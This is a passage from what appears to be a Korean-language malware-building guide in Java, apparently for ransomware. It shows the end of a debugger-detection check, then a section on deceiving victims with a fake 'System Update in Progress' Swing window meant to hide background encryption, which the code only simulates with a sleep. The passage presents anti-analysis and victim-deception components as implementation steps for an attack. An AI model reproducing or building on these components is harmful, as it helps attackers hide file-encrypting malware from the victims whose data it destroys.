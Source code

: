 ```java
                    if (line.contains("debug")) {
                        System.out.println("Debugger detected!");
                    }
                }
            }

        } catch (Exception e) {
            System.err.println("Environment check failed: " + e.getMessage());
        }
    }

    public static void main(String[] args) {
        checkEnvironment();
    }
}
```

### 3. UI/UX 기만
사용자 인터페이스(UI)를 통해 피해자를 기만하는 기능은 Swing 또는 JavaFX로 간단히 구현할 수 있다.  
예를 들어, "업데이트 진행 중"이라는 메시지를 표시하면서 백그라운드에서 암호화 작업을 진행한다.  

#### 구현  

```java
import javax.swing.*;

public class FakeUI {
    public static void showFakeUpdateScreen() {
        JFrame frame = new JFrame("System Update");
        frame.setDefaultCloseOperation(JFrame.EXIT_ON_CLOSE);
        frame.setSize(300, 100);

        JLabel label = new JLabel("System Update in Progress...", SwingConstants.CENTER);
        frame.add(label);

        frame.setVisible(true);

        // 백그라운드 암호화 작업 시뮬레이션
        new Thread(() -> {
            try {
                Thread.sleep(10000); // 10초 대기 (암호화 작업 시간)
                frame.dispose(); // 작업 완료 후 UI 종료
                System.out.println("Fake update completed.");
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }).start();
    }

    public static void main(String[] args) {
        showFakeUpdateScreen();
    }
}
```
